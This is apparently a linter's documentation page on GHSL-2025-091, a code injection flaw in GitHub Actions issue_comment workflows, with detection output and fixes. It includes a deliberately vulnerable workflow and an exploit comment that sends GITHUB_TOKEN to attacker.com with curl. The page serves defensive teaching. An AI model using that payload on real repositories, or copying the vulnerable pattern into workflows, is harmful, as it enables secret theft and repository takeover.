

# GHSL-2025-091: Code Injection via issue_comment in github-script

## Summary

| Item | Value |
|------|-------|
| Advisory ID | GHSL-2025-091 |
| Severity | Critical |
| Affected Component | ansys/pymapdl |
| CVE | N/A |
| CWE | CWE-94 (Improper Control of Generation of Code) |
| Reference | https://securitylab.github.com/advisories/GHSL-2025-091_ansys_pymapdl/ |

## Vulnerability Description

GHSL-2025-091 is a code injection vulnerability in GitHub Actions workflows that use the `issue_comment` trigger with `actions/github-script`. The vulnerability occurs when untrusted input from `github.event.comment.body` is directly interpolated into JavaScript template literals within the script parameter.

The `issue_comment` trigger is particularly dangerous because:
1. It runs with repository write permissions and access to secrets
2. It can be triggered by anyone who can comment on issues or pull requests
3. The comment body is completely controlled by the attacker

## Attack Vector



## Vulnerable Code Pattern

```yaml
name: Vulnerable Migrator Workflow

on:
  issue_comment:
    types: [created]

permissions:
  contents: write
  pull-requests: write

jobs:
  process-comment:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/github-script@v6
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
          script: |
            // VULNERABLE: comment body directly interpolated in template literal
            const commentBody = `${{ github.event.comment.body }}`;

            // Also vulnerable: issue title
            const issueTitle = `${{ github.event.issue.title }}`;

            if (commentBody.includes('/migrate')) {
              console.log('Migration requested');
            }
```

### Exploitation Example

An attacker can post a comment like:

```
`; const { exec } = require('@actions/exec'); await exec.exec('curl', ['-d', process.env.GITHUB_TOKEN, 'https://attacker.com']); `
```

This escapes the template literal, executes arbitrary JavaScript code, and can:
- Steal repository secrets
- Modify repository contents
- Create backdoors in the codebase
- Pivot to other systems using stolen credentials

## sisakulint Detection

sisakulint detects this vulnerability with the `code-injection-critical` rule:

### Detection Output

```
script/actions/ghsl/ghsl-2025-091.yaml:31:40: code injection (critical):
"github.event.comment.body" is potentially untrusted and used in a workflow
with privileged triggers. Avoid using it directly in github-script. Instead,
pass it through an environment variable. [code-injection-critical]

script/actions/ghsl/ghsl-2025-091.yaml:34:39: code injection (critical):
"github.event.issue.title" is potentially untrusted and used in a workflow
with privileged triggers. Avoid using it directly in github-script. Instead,
pass it through an environment variable. [code-injection-critical]
```

### Untrusted issue_comment Contexts

| Context | Risk | Description |
|---------|------|-------------|
| `github.event.comment.body` | Critical | Comment content from any user |
| `github.event.issue.title` | Critical | Issue title (can be modified by author) |
| `github.event.issue.body` | Critical | Issue body (can be modified by author) |
| `github.event.sender.login` | Medium | Username of commenter (spoofable in some contexts) |

## Why issue_comment is Dangerous

The `issue_comment` trigger creates a direct attack surface:

1. **Open Access**: Anyone who can view an issue can comment on it
2. **Full Permissions**: The workflow runs with repository permissions
3. **Secret Access**: Secrets configured for the workflow are available
4. **No Sandboxing**: Unlike `pull_request`, there's no fork isolation

This design allows attackers to:
- Execute arbitrary code with repository permissions
- Access all configured secrets
- Modify repository contents
- Create persistent backdoors

## Remediation

### Option 1: Use Environment Variables (Recommended)

```yaml
- uses: actions/github-script@v6
  env:
    COMMENT_BODY: ${{ github.event.comment.body }}
    ISSUE_TITLE: ${{ github.event.issue.title }}
  with:
    script: |
      // SAFE: Access through process.env (automatically escaped)
      const commentBody = process.env.COMMENT_BODY;
      const issueTitle = process.env.ISSUE_TITLE;

      if (commentBody.includes('/migrate')) {
        console.log('Migration requested');
      }
```

### Option 2: Restrict Who Can Trigger

```yaml
jobs:
  process-comment:
    # Only process comments from collaborators
    if: |
      github.event.comment.author_association == 'OWNER' ||
      github.event.comment.author_association == 'MEMBER' ||
      github.event.comment.author_association == 'COLLABORATOR'
    runs-on: ubuntu-latest
```

### Option 3: Use Explicit Input Validation

```yaml
- uses: actions/github-script@v6
  env:
    COMMENT_BODY: ${{ github.event.comment.body }}
  with:
    script: |
      const commentBody = process.env.COMMENT_BODY;

      // Validate expected command format
      const validCommands = ['/migrate', '/help', '/status'];
      const command = commentBody.trim().split(' ')[0];

      if (!validCommands.includes(command)) {
        core.setFailed('Unknown command');
        return;
      }
```

### Option 4: Minimize Permissions

```yaml
permissions:
  contents: read  # Read-only unless writes are required
  issues: write   # Only what's needed
```

## Additional Security Considerations

### Avoid Processing Untrusted Input in Privileged Contexts

If you must process untrusted input, consider:
1. Running in a separate, unprivileged workflow
2. Using a sandbox environment
3. Implementing strict input validation

### Use GitHub Apps with Limited Scopes

Instead of `GITHUB_TOKEN`, use a GitHub App with minimal required permissions.

### Audit All issue_comment Workflows

Review all workflows triggered by `issue_comment` for similar patterns.

## Auto-Fix Support

sisakulint provides auto-fix for this vulnerability:

```bash
# Preview the fix
sisakulint -fix dry-run script/actions/ghsl/ghsl-2025-091.yaml

# Apply the fix
sisakulint -fix on script/actions/ghsl/ghsl-2025-091.yaml
```

The auto-fix will:
1. Move untrusted expressions to environment variables
2. Replace direct interpolation with `process.env.VAR_NAME`

## Test Files

- Vulnerable pattern: `script/actions/ghsl/ghsl-2025-091.yaml`

## References

- [GitHub Security Lab Advisory](https://securitylab.github.com/advisories/GHSL-2025-091_ansys_pymapdl/)
- [GitHub Actions: issue_comment event](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#issue_comment)
- [Keeping your GitHub Actions and workflows secure](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)
- [actions/github-script Security Best Practices](https://github.com/actions/github-script#security)
